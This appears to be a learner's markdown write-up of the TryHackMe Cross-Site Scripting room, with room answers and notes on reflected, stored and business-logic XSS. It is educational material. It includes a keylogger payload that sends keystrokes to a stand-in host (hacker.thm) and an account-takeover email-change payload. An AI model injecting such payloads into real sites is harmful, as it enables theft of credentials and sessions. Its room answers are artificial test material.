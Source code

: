 ![Background](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/c1c509a263e7a42bece2f0b77fd1ba1b.png" width="200" height="200" align="left">

# Cross-Site Scripting

**Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.**

**If you want to check out the room [click here](https://tryhackme.com/room/xssgi)**

---

<br>

**Table of Contents**

- [Cross-Site Scripting](#cross-site-scripting)
  - [Task 1 Room Brief](#task-1-room-brief)
  - [Task 2 XSS Payloads](#task-2-xss-payloads)
  - [Task 3 Relfected XSS](#task-3-relfected-xss)
  - [Task 4 Stored XSS](#task-4-stored-xss)
  - [Task 5 DOM Based XSS](#task-5-dom-based-xss)
  - [Task 6 Blind XSS](#task-6-blind-xss)
  - [Task 7 Perfecting your payload](#task-7-perfecting-your-payload)
  - [Task 8 Practical Example (Blind XSS)](#task-8-practical-example-blind-xss)

## Task 1 Room Brief

**What does XSS stand for?**

    Cross-Site Scripting

## Task 2 XSS Payloads

**Which document property could contain the user's session token?**

    document.cookie

**Which JavaScript method is often used as a Proof Of Concept?**

    alert

btoa()

: Is a function that accepts javascript string as an parameter and base64 encodes it in order to make it safe for a browser to transport. This along with the `document.cookie` parameter an attacker can steal a victims cookie session in order to login as that user without knowing the credentials.

📰 **Note:** Javascript can be used in order to set a keylogger on the victim site thus giving the attacker the chance to passively gather user keystrokes with the goal of obtaining credentials. An example line for a XSS keylogger may look like this:

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic attacks

: These are flaws in the original design and implementation of the web app that allow an attaker to be able to exectue unintended behavior. This can be used to essentially put the attacker as a Man In The Middle between the user and the application itself. An example of this in terms of XSS would be as follows:

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Where the `user.changeEmail()` would be a function within the application that would enable the attaker to change the official email of the site to one of their control thus potentially posing as a help desk or customer support for the user and social engineering the victim into divulging information/credentials giving access over the victims account.

## Task 3 Relfected XSS

**Where in an URL is a good place to test for reflected XSS?**

    Parameters

Although there are different types of XSS attacks, **Reflected** XSS occurs when a malicious script is, as the name suggests, reflected off a web app to the victim browser through a link in order to activate the attack. This can be used to acquire the victims session cookie/token, this type of behavior can be seen when a web app processes the data in an unsafe way and reflects the parameter in it's response back to the user as shown below.

Original unsafe URL:

```http
https://insecure-website.com/search?term=gift

The response from the web app to this link would look like this:

<p>You searched for: gift</p>
```

Now, when a malicious actor injects their script into the parameter field it can look like this:

```http
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>

The response from the web app to this link would look like this:

<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

📰 **Note:** This sort of attack can be performed in numerous ways and creativity is key but it vulnerability will need modification depending on what sort of protection is in place on the web app itself so keep a lookout for any details that might give it away.

## Task 4 Stored XSS

**How are stored XSS payloads usually stored on a website?**

    Database

## Task 5 DOM Based XSS

## Task 6 Blind XSS

## Task 7 Perfecting your payload

## Task 8 Practical Example (Blind XSS)

